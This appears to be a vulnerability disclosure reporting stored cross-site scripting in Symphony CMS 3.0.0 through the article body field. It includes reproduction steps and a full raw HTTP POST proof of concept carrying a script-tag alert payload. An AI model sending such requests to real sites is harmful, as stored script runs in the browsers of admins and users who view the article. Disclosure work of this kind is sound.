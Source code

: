 # Description

`symphonycms/symphony-2` is vulnerable to `Cross-Site Scripting (XSS)` via fields['body'] to appendSubheading in events\event.publish_article.php

# Steps to reproduce the behavior:
```
1. Login as member
2. Go to 'Articles'
3. Submit malicious content
4. Anyone (inclued admin) view article and XSS excuted
```
Expected behavior
`When admin or user view content, a pop-up will be displayed`

Affected componets:
`events\event.publish_article.php in Symphony CMS 3.0.0 allows XSS via fields['body'] to appendSubheading` 

# POC:
```
POST /symphonycms/symphony/publish/articles/new/ HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://target/symphonycms/symphony/publish/articles/new/
Content-Type: multipart/form-data; boundary=---------------------------17679481844164416353626544932
Content-Length: 1111
Origin: http://target
Connection: close
Cookie: PHPSESSID=b21qllug0g7ft80ueo3bn0bgcd;
Upgrade-Insecure-Requests: 1
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="xsrf"
vr-i2mWs18DPjVmZ8z2nB-Gb3hdyrb
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="MAX_FILE_SIZE"
5242880
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[title]"
TEST XSS
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[body]"
<script>alert('XSS')</script>
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[date]"
08/28/2020 5:55 am
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[categories][]"
2
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="fields[publish]"
yes
-----------------------------17679481844164416353626544932
Content-Disposition: form-data; name="action[save]"
Create Entry
-----------------------------17679481844164416353626544932--
```
